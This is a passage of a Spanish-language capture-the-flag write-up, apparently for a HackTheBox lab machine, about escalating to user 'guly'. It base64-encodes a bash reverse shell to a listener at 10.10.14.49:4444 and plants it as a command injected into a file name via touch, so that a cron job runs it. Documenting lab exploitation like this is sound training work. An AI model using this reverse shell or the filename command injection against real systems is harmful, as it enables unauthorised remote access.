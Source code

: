 
#### realizamos un script de r.shell codificado en base64

>vamos al directorio /var/www/html/uploads

>Realizamos la r.shell en base64

```bash
echo -n 'bash -c "bash -i &> /dev/tcp/10.10.14.49/4444 0>&1"' |base64
```

![[Pasted image 20250619163210.png]](Networked_images/20250619163210.png)

```bash
YmFzaCAtYyAiYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC40OS80NDQ0IDA+JjEi
```
![[Pasted image 20250619163224.png]](Networked_images/20250619163224.png)


#### utilizamos touch para que se ejecute el cron 

>Nos ponemos en escucha por el puerto que hayamos elegido 

![[Pasted image 20250619163432.png]](Networked_images/20250619163432.png)

```bash
touch -- ';echo YmFzaCAtYyAiYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC40OS80NDQ0IDA+JjEi |base64 -d|bash'
```

>en nuestra terminal en escucha por el puerto 4444 deberíamos recibir una shell como guly (el cron se ejecuta cada 3 minutos igual tenemos que esperar un poco)

#### tratamos la shell con python
![[Pasted image 20250619163935.png]](Networked_images/20250619163935.png)
